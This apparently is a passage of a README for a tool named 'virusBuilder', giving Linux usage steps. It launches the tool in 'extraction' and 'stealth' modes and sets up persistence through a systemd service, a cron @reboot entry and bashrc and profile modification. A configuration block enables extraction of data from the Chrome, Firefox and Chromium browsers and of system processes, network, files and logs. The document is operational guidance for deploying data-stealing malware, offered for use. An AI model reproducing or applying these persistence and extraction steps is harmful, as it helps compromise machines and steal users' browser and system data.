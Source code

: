 #### Step 2: Basic Usage on Linux

1. **Launch the Application**:
   ```bash
   python3 launcher.py --mode production
   ```

2. **Configure for Linux**:
   ```bash
   # Edit configuration
   nano config/settings.yaml
   ```

3. **Run Extraction**:
   ```bash
   python3 launcher.py --mode extraction --target /tmp/output
   ```

#### Step 3: Linux-Specific Features

**Systemd Service**:
```bash
# Create service file
sudo nano /etc/systemd/system/virusbuilder.service

# Enable and start service
sudo systemctl enable virusbuilder.service
sudo systemctl start virusbuilder.service
```

**Cron Persistence**:
```bash
# Add to crontab
crontab -e
# Add: @reboot /path/to/virusBuilder/launcher.py --mode stealth
```

**Linux Configuration**:
```yaml
platform:
  linux:
    systemd_service: true
    cron_persistence: true
    bashrc_modification: true
    profile_modification: true

extraction:
  browsers:
    chrome: true
    firefox: true
    chromium: true
  
  system:
    processes: true
    network: true
    files: true
    logs: true
```
